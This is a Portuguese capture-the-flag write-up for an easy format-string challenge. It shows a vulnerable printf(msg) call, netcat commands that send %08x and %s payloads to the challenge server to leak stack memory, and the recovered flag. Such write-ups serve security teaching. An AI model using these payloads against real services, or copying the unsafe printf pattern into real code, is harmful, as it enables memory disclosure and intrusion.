 # **PWN**

**Autor**: Hakal  
**Desafio**: Suspicious Strings  
**Nível**: Fácil  

---

## **1. Introdução**

Neste write-up, documentaremos a exploração de uma vulnerabilidade de **format string** presente em um binário, fornecido pelo Chapéu de Palha Hacker Club. O objetivo desta exploração foi extrair uma flag diretamente da memória do programa utilizando técnicas de ataques de format string. A exploração foi realizada de forma sistemática, avançando passo a passo pela memória do programa até encontrar a string desejada.

---

## **2. Análise do Código Vulnerável**

O binário em questão apresentava uma falha clássica de segurança em que o usuário pode inserir uma string de formato diretamente na função `printf` sem sanitização. Isso permite que o usuário injete especificadores de formato para manipular a saída e acessar valores armazenados na pilha.

O código vulnerável é o seguinte:

```c
fgets(msg, 300, stdin);   // Lê até 300 caracteres do stdin e armazena em msg
printf(msg);              // Imprime msg diretamente, sem especificador de formato
```

Ao permitir que o usuário controle o argumento da função `printf`, o programa torna-se suscetível a ataques que podem acessar ou modificar dados na memória.

---

## **3. Exploração da Pilha com Format String**

O objetivo desta exploração é **ler valores da pilha** e, eventualmente, encontrar a flag armazenada na memória.

### **Passo 1: Verificando os valores na pilha com %x**

O primeiro passo foi explorar a pilha utilizando o especificador `%08x`, que lê valores de 4 bytes da pilha e os exibe em formato hexadecimal. Com isso, conseguimos inspecionar valores na memória.

Executamos o seguinte comando:

```bash
echo -e '%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x' | nc suspicious-strings.chapeudepalhahacker.club 62345
```

**Saída:**

![Exploração da Pilha com Format String](1.png)

---

### **Passo 2: Acessando strings na memória com %s**

Após ler os valores da pilha, a próxima etapa foi tentar acessar uma **string** que poderia estar armazenada na memória. Para isso, utilizamos o especificador `%s`, que tenta interpretar um valor na pilha como um ponteiro para uma string.

Utilizamos o seguinte comando:

```bash
echo -e '%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%s' | nc suspicious-strings.chapeudepalhahacker.club 62345
```

**Saída:**

![Acessando strings na memória com %s](2.png)

**Análise:**

- Os primeiros valores (`9e63e4d1`, `fbad2088`, etc.) são dados que continuam sendo lidos da pilha.
- O valor mais importante é o último: `9e63d2a0`. Esse valor representa um **ponteiro** que aponta para uma string armazenada na memória.
- O especificador `%s` utilizou esse ponteiro para acessar e exibir o conteúdo da memória. A string recuperada foi a **flag**: `flag{f0rm4t_str1ng_1s_4w3s0m3}`.

---

## **4. Interpretação dos Valores da Pilha**

### **Detalhamento dos valores lidos:**

| Posição na pilha | Valor Lido       | Interpretação                        |
|------------------|------------------|--------------------------------------|
| [Posição 0]      | 9e63e4d1         | Endereço ou valor temporário na pilha         |
| [Posição 1]      | fbad2088         | Possivelmente parte de uma estrutura de controle de I/O (como `FILE`) |
| [Posição 2]      | 619c1b2f         | Outro valor temporário ou ponteiro |
| [Posição 3]      | 9e63e500         | Valor armazenado na pilha, provavelmente um ponteiro ou variável local |
| [Posição 4]      | 00000000         | Valor nulo, frequentemente usado como delimitador ou ponteiro nulo |
| [Posição 5]      | d30f8d68         | Outro endereço temporário armazenado na pilha |
| [Posição 6]      | 00c00000         | Possivelmente um valor relacionado à alocação de memória |
| [Posição 7]      | 00010000         | Valor constante utilizado pelo programa |
| [Posição 8]      | 9e63d2a0         | **Ponteiro para a string da flag** armazenada na memória |
| [Posição 9]      | flag{f0rm4t_str1ng_1s_4w3s0m3} | **Flag recuperada utilizando %s** |

### **Resumo**:

- O uso de `%08x` nos permitiu "andar" pela pilha e ler valores armazenados no stack frame do programa.
- Ao utilizar `%s`, conseguimos acessar um endereço que apontava para a **flag**, armazenada na memória do programa. Esse endereço foi encontrado na posição 8 da pilha.

![Interpretação dos Valores da Pilha](3.png?)

---

## **5. Conclusão**

Este desafio envolveu o processo de:

1. Identificação de uma vulnerabilidade de **format string** que permitia a inserção de especificadores de formato não sanitizados.
2. Inspeção da pilha utilizando o especificador `%08x` para ler valores da memória e identificar variáveis relevantes.
3. Extração de uma string da memória com o especificador `%s`, resultando na recuperação da flag do desafio.

A exploração foi realizada com sucesso ao utilizar essas técnicas para manipular a vulnerabilidade e obter o conteúdo desejado.

---
